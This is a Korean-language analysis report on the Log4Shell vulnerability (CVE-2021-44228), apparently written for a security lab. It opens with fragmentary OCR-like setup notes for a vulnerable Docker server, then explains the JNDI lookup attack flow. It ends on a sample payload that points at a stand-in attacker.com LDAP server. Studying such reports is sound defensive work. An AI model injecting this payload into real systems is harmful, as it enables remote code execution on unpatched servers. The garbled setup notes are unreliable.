 이글루코퍼레이션 원치현 Log4shell 분석보고서

# Log4shell
CVE-2021-44228
Log4j 아파치 재단의 무료오픈소스 java기반의 모든 애플가능 다양한 자바 기반 서비스 로그 기록 JDNI데이터및 객체를 발견 참고하기위한 자바 LDAP1389 Lookup JNDI를 통해 찾은 자원을 사용하는 기능

취약서버 구동 도커이미지파일 다운로드
Asudo git clone 
sudo docker build . -t vulnerable-app
새로 생성할 이미지를 vulnerable-app으로 현재 디렉토리에 도커 이미지 build 생성

github.com/welk

미사용 취약한 서버 종료
docker ps -a 실행중인 도커이미지 전체 확인
docker container 아이디 확인

# Log4Shell (CVE-2021-44228) 분석 보고서

## 1. 개요
**Log4Shell(CVE-2021-44228)**은 Apache Log4j 라이브러리에서 발견된 **원격 코드 실행(RCE, Remote Code Execution)** 취약점입니다.  
공격자는 악성 페이로드를 이용하여 **임의의 코드를 실행**할 수 있으며, 광범위한 피해를 초래할 수 있습니다.

본 보고서는 Log4Shell의 원리, 영향, 악용 사례, 탐지 및 대응 방법을 분석합니다.

---

## 2. 취약점 개요

| 항목 | 설명 |
|------|------|
| **취약점명** | Log4Shell |
| **CVE 번호** | CVE-2021-44228 |
| **취약점 유형** | 원격 코드 실행(RCE) |
| **영향을 받는 버전** | Log4j 2.0-beta9 ~ 2.14.1 |
| **패치된 버전** | Log4j 2.15.0 이상 |
| **공격 난이도** | 낮음 (간단한 문자열 입력만으로 악용 가능) |
| **심각도** | 🔥 치명적 (CVSS 10.0) |

---

## 3. 취약점 원리
Log4Shell은 **JNDI(Java Naming and Directory Interface) 룩업 기능의 취약점**을 이용하여 공격자가 원격 서버에서 악성 코드를 실행할 수 있도록 합니다.

### 3.1 공격 흐름
1. 공격자는 악성 문자열을 포함한 로그 메시지를 애플리케이션에 전달.
2. Log4j가 로그를 기록하는 과정에서 **JNDI Lookup을 실행**.
3. JNDI가 LDAP, RMI 등의 원격 서버에서 데이터를 조회.
4. 공격자의 서버에서 악성 Java 클래스 로드 및 실행.
5. **원격 코드 실행(RCE) 발생**.

### 3.2 공격 코드 예제
공격자는 다음과 같은 문자열을 로그에 남기기만 해도 취약점을 악용할 수 있습니다.

```java
${jndi:ldap://attacker.com:1389/exploit}


